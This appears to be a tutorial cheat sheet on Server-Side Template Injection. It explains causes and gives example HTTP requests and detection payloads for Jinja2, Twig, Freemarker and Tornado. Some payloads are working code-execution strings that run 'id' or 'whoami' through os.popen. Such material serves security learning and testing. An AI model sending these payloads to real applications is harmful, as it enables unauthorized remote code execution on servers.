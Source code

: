 # Description

**Server-Side Template Injection (SSTI)** is a web application vulnerability that occurs when user input is embedded directly into a server-side template, allowing an attacker to execute arbitrary code on the server. This vulnerability arises when the application fails to properly sanitize user input before using it in a template rendering engine.

### How Does SSTI Vulnerability Occur?

SSTI occurs due to insecure handling of template rendering in web applications. It happens when:
1. **User Input is Used in Templates**: The application allows user input to be directly embedded in server-side templates for rendering.
2. **Lack of Input Sanitization**: The user-provided data is not validated, sanitized, or properly escaped, making it possible for malicious input to be interpreted as template code.
3. **Insecure Template Engines**: Some template engines allow code execution or direct access to server resources if provided with crafted input.

Popular template engines vulnerable to SSTI include Jinja2 (Python), Twig (PHP), Freemarker (Java), and others.

### Where to Put an SSTI Payload?

An SSTI payload is placed in any input field, URL parameter, or HTTP header where the data is used in server-side templates. Common areas include:
- **Form fields that are used in rendering responses** (e.g., feedback forms, profile descriptions).
- **URL parameters that affect template rendering**.
- **HTTP request headers, if used in templates**.

### Examples of HTTP Requests with SSTI Payloads

Here are some examples of SSTI payloads used in various contexts:

#### 1. Basic SSTI in a Python Flask/Jinja2 Application

If an application uses Jinja2 and directly renders user input, a payload can be used to execute Python code.

**Malicious Payload (`{{7*7}}`)**:
- When rendered in Jinja2, this payload evaluates `7*7` and returns `49`.

**Example HTTP Request**:
```http
GET /greeting?name={{7*7}} HTTP/1.1
Host: vulnerable-website.com
```
In this example, if the server-side code uses `name` in a Jinja2 template like this:
```python
return render_template('greeting.html', name=request.args.get('name'))
```
The output rendered would be `49` instead of `{{7*7}}`.

#### 2. Exploiting SSTI to Execute Arbitrary Code

Advanced SSTI payloads can execute arbitrary server-side commands or code.

**Malicious Payload for Jinja2 (`{{config.__class__.__init__.__globals__['os'].popen('id').read()}}`)**:
- This payload tries to access the `os` module and execute the `id` command, potentially revealing user and group information.

**Example HTTP Request**:
```http
POST /feedback HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 82

message={{config.__class__.__init__.__globals__['os'].popen('id').read()}}
```
If the `message` parameter is rendered directly in a Jinja2 template, it could execute the `id` command on the server.

#### 3. SSTI in a PHP Application Using Twig

For Twig template engines, SSTI payloads can be used to achieve code execution if the application does not filter user input.

**Malicious Payload (`{{7*7}}`)**:
- Like in Jinja2, this payload would be evaluated and produce `49`.

**Example HTTP Request**:
```http
GET /profile?bio={{7*7}} HTTP/1.1
Host: vulnerable-website.com
```
If the application uses:
```php
echo $twig->render('profile.html', ['bio' => $_GET['bio']]);
```
It could render `49` on the profile page.

#### 4. Java Application Using Freemarker

In Freemarker, SSTI can occur if input is evaluated as part of the template rendering.

**Malicious Payload (`${7*7}`)**:
- In Freemarker, `${7*7}` would evaluate to `49`.

**Example HTTP Request**:
```http
POST /submit HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

comment=${7*7}
```
If the application uses the input in the template:
```java
template.process(dataModel, out);
```
It could output `49` instead of `${7*7}`.

SSTI vulnerabilities can lead to severe consequences, such as remote code execution or unauthorized access to sensitive data, making secure template handling crucial for web applications.
### Breaking Out of Expressions

In more complex cases, the vulnerability might not be evident from a simple mathematical operation. For example, if user input is placed within a template expression, like so:
```python
greeting = getQueryParameter('greeting')
engine.render("Hello {{" + greeting + "}}", data)
```
- **In this example, the request URL might be:**
   ```
   http://vulnerable-website.com/?greeting=data.username
   ```

- **Output:**
   ```
   Hello Cyborg71
   ```

To test for SSTI, try injecting additional template syntax:
- **Injection Example:**
   ```
   http://vulnerable-website.com/?greeting=data.username}}<tag>
   ```

If the server-side template engine renders the input correctly, potentially including the arbitrary HTML, like:
```
Hello Cyborg71<tag>
```
It indicates that the application is vulnerable to SSTI because the template syntax allowed breaking out of the original expression.

# SSTI Payloads For Detection
```html
${{<%[%'"}}%\
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```
### Tornado(Python)
```
{{7*7}}
{{__import__('os').popen('whoami').read()}}
```
